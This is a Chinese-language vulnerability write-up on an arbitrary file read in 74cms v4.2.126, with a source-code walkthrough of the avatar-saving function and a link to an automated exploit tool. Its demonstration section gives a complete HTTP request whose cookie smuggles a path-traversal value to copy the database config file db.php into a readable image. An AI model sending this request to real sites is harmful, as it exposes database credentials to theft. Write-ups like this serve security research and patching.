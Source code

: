 74cms v4.2.126-任意文件读取漏洞
===============================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02 任意文件读取漏洞演示
-------------------------

    url: http://74cms.test/index.php?m=Home&c=Members&a=register

    post: 
    reg_type=2&utype=2&org=bind&ucenter=bind
    cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php;members_bind_info[type]=qq;members_uc_info[password]=123456;members_uc_info[uid]=1;members_uc_info[username]=tttttt;
    headers:
    Content-Type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId24.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId27.png)

问题一：漏洞原理？我下面会讲问题二：你如何知道文件名称的？我下面会讲问题三：能不能写个简单的工具，自动利用此漏洞？哦，好的，我下面会提供 : )

0x03 漏洞讲解
-------------

打开文件：74cms\\upload\\Application\\Home\\Controller\\MembersController.class.php函数：\_save\_avatar(\$avatar, \$uid)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId29.png)

如果不想看图片注释的话，我这里简单的说一下。812行使用\$avatar拼接形成\$path830行使用了\$save\_avatar+\$savePicName; 生成了\$filename838行，使用了copy函数，把\$path文件内容复制到了\$filename中。而 \$avatar 和 \$uid 都是我们刚好可以控制的变量并且生成的文件名称是\$uid+time() 然后md5 一下 拼接 .jpg这个情况就很舒服了。写个小工具跑一下就好了，小工具会在结尾的时候放出来的。好了，让我们继续看下去 : )我们现在既然已经知道了\_save\_avatar
函数是有可能造成此漏洞的那么这时，我们就需要去找调用它的地方了。经过一顿的搜索我们得出了两个地方是调用了他地方一：register() 方法 会员注册方法地方二：oauth\_reg() 方法 第三方登录注册方法论此漏洞的利用当然是register() 方法利用起来比较简单 因为 方法二
需要搭建第三方登录，我本地的话。。。还是算了，这里掩饰我使用 方法一打开文件：74cms\\upload\\Application\\Home\\Controller\\MembersController.class.php函数：register()

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId30.png)

上面的马赛克是因为我写错了几个字，又不想重新写，所以我就把他擦掉了。皮这一下，我就很开心

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId31.png)

这里我们讲解一下如果
post的变量ucenter为bind时，则通过cookie获取数组\$uc\_user接着会进行数组合并而members\_uc\_info的cookie值是可控的，所以\$data也是可控的。

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId32.png)

这里写着 当 \$data\[utype\] = 1
会进行用户注册，而\$data\[utype\]是我们可以控制的所以我们为2绕过此判断这里我又跳过了前面一些无关紧要的内容，来到了最后的漏洞触发点。因为真的无关紧要,所以就跳过了

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId33.png)

0x04 漏洞利用小工具
-------------------

https://github.com/ianxtianxt/74cms-upload

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId35.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId36.png)

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/dr895b
